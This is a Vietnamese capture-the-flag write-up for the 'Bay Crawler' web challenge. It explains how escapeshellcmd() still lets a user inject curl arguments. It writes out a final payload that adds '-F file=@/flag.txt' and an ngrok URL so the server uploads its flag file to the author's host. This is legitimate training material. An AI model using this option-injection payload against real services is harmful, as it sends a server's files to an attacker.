






## Challenge: Bay Crawler

Hé lô, nay chúng ta sẽ giải một bài ctf khá hay ho tới từ Cookie Arena.



Nhập bất cứ trang web nào thì trang web này cũng sẽ thu thập nội dung của website đó rồi nén lại thành 1 đường dẫn ở Catched File.



Lúc đầu, tui nghĩ sẽ sử dụng SSRF hoặc command injection, nhưng không thu được gì.

Đọc source code thì thấy có một thông tin thú zị.



Ở ```/?debug``` có chứa code php, lướt lướt qua sơ thì thấy đoạn này



Chú ý từ đoạn else, nếu đầu vào đúng thì server sẽ sử dụng lệnh curl để crawl nội dung từ url ta nhập vào sau đó đưa vào file được mã hóa ở .cache.
Chú ý hàm ```escapeshellcmd()``` đã chặn những kí tự có thể sử dụng để hình thành shell -> Không dùng command injection được.

Theo tui được biết thì lệnh curl cũng có thể gửi file đi được, với option -F.
Ý tưởng sẽ là thế này, chúng ta sẽ gửi payload ```-F @/flag.txt http://hackerserver.com``` để server thực hiện lệnh curl, gửi nội dung file ```flag.txt``` đến với server mà ta host. Ở đây tui sử dụng ```ngrok``` hoặc có thể sử dụng ```Collaborator Client``` ở Burpsuit Pro.

Payload: ```-F @/flag.txt https://f37d-42-119-101-63.ngrok-free.app/```
Nếu nhập payload trên thì sẽ không được vì lệnh if yêu cầu phải có http hoặc https ở đầu.



Có vẻ hơi mệt nhưng thật ra khá là dễ để bypass chỉ cần thêm một url đúng nào đó thôi.
-> Payload cuối cùng: ```https://google.com -F file=@/flag.txt https://f37d-42-119-101-63.ngrok-free.app/```. Gửi lên server, server sẽ thực hiện curl tới google rồi sau đó gửi file flag.txt đến server ngrok nơi ta host.



Tèn ten, đã giải xong bài. Một challenge hay ho và học được nhiều điều. Nếu bạn không biết sử dụng [ngrok](https://ngrok.com/) thì cứ vào web này, một tool khá hay ho hoặc bạn có thể lên youtube tìm kiếm.

## THANK YOU FOR LEARNING, GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERDAY, LUV U <3